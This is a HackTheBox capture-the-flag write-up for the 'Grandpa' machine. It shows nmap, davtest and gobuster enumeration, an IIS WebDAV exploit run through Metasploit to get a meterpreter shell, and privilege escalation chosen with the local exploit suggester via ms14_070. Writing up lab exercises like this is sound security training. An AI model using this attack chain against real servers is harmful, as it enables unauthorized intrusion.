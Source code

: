 # HackTheBox - Grandpa 

[Sources](https://github.com/BurntxNoodle/PenetrationTesting/blob/master/HTB%20-%20Grandpa/Readme.md#sources)

### Enumeration 

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA granny 10.10.10.14```. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902626-76d3ba80-3130-11ea-853b-801a67433d8a.png)

We see that port ```80``` is open that's hosting an IIS webserver. Doing a previous challenge [Granny](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny) I learned about WebDAV and this box also seems to have some WebDAV funcitonality. I do a similar ```davtest``` scan. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902458-1fcde580-3130-11ea-866f-baef0c1043b2.png)

Meanwhile, in the background, I run a ```gobuster``` script to see if there's any additional directories. The command I did was ```gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```. And this is what it found:

```
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
/_private (Status: 403)
```

```Status: 403``` means we don't have access to that directory, ```Status: 301``` is a URL redirection, but we can access it.

So basically from our findings, we see the only open port is ```80``` with WebDAV. But with this WebDAV (unlike HackTheBox grandma), we cannot upload files so we can't upload an ```.asp``` file to execute and get a reverse shell. 

I decided to do some googling:

![image](https://user-images.githubusercontent.com/41026969/71909350-dd130a00-313d-11ea-9dde-2abd2d26ab4f.png)

[The first link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl) by Rapid7 shows the module ```exploit/windows/iis/iis_webdav_scstoragepathfromurl```. 

### Exploitation

Using the module, configuring the settings, then later executing the exploit, we get a meterpreter shell.

![image](https://user-images.githubusercontent.com/41026969/71910480-fc129b80-313f-11ea-879e-02efc25368e2.png)

In meterpreter, I do ```shell``` to get a native windows shell. Doing a ```whoami``` check outputs ```nt authority\network service```. This isn't the administrator account.

Next, something I learned by doing this HackTheBox challenge is to migrate processes to a different process that you own or a process that's the same architecture as your exploit/payload. So for this challenge, I migrate to a process that I own (as ```nt authority\network service```. 

*NOTE: When doing this challenge, the meterpreter session kept closing randomly. I think it's due to the process that I migrated to so I suggest trying a different process if possible.

![image](https://user-images.githubusercontent.com/41026969/71935472-da7fd700-3174-11ea-9c30-ffc5595828b3.png)

### Privesc

First step I do is to use a metasploit module that will collect a list of known exploits based on the system information you have on the machine and then suggests you a list of exploits that may work. 

```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 29 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > sessions
```

Trying the first exploit listed (```exploit/windows/local/ms10_015_kitrap0d```) that "appears to be vulnerable" by ended up crashing the box so that didn't work.

Trying the second exploit (```exploit/windows/local/ms14_070_tcpip_ioctl```) that "appears to be vulnerable" by ended up getting me a shell:

![image](https://user-images.githubusercontent.com/41026969/71937572-c4751500-317a-11ea-8da6-ff37d0e6ae50.png)

### Getting Root/User flags

Eventually I wander into this directory that contains an ```Administrator``` directory and a ```Harry``` directory that looks to be a user on the box.

![image](https://user-images.githubusercontent.com/41026969/71938216-b7f1bc00-317c-11ea-9642-ff898efbab9f.png)

Checking the ```Desktop``` inside each of those reveals the Root flag and the User flag

### Flags

Root: ```C:\Documents and Settings\Administrator\Desktop\root.txt```

User: ```C:\Documents and Settings\Harry\Desktop\user.txt```

### Sources
- [Rapid7 module for initial shell](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
- [HackTheBox Granny Writeup (also deals with IIS/WebDAV](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny)

